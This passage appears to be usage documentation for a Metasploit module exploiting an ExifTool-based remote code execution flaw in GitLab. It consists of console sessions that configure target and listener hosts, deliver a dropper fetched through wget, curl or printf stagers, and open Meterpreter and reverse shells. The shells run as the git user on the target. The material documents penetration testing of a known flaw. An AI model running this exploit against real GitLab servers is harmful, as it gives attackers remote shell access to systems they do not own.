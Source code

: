 ```
[*] Uploading S6uji8z.jpg to /6eKwYEoQ2O
[*] Client 10.0.0.7 (Wget/1.17.1 (linux-gnu)) requested /agqzWrd49OBxPkC
[*] Sending payload to 10.0.0.7 (Wget/1.17.1 (linux-gnu))
[*] Meterpreter session 1 opened (10.0.0.9:4444 -> 10.0.0.7:53056 ) at 2021-11-02 01:27:22 -0700
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: git
meterpreter > shell
Process 6936 created.
Channel 1 created.
whoami
git
id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-workhorse
```

Similar to above, but using `curl` instead:

```
msf6 exploit(multi/http/gitlab_exif_rce) > run

[*] Started reverse TCP handler on 10.0.0.9:4444 
[*] Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/Iy9pWshQ8gakRvP
[*] Local IP: http://10.0.0.9:8080/Iy9pWshQ8gakRvP
[*] Uploading MMNlv9v.jpg to /hZXc5H1
[*] Client 10.0.0.7 (curl/7.74.0-DEV) requested /Iy9pWshQ8gakRvP
[*] Sending payload to 10.0.0.7 (curl/7.74.0-DEV)
[*] Meterpreter session 6 opened (10.0.0.9:4444 -> 10.0.0.7:50850 ) at 2021-11-02 11:51:42 -0700
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Server stopped.

meterpreter > 
```

### GitLab 13.10.2 on CentOS 8. Get reverse shell using printf / reverse_tcp

```
msf6 > use exploits/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.7
RHOST => 10.0.0.7
msf6 exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(multi/http/gitlab_exif_rce) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set CmdStager::Flavor printf
CmdStager::Flavor => printf
msf6 exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading W1tHrzXkK.jpg to /mopoTKJq
[+] The target is vulnerable. The error response indicates ExifTool was executed.
[*] Executing Linux Dropper for linux/x86/shell/reverse_tcp
[*] Uploading aVTK6SM33.jpg to /NySTvN3J
[+] Exploit successfully executed.
[*] Command Stager progress -  17.76% done (143/805 bytes)
```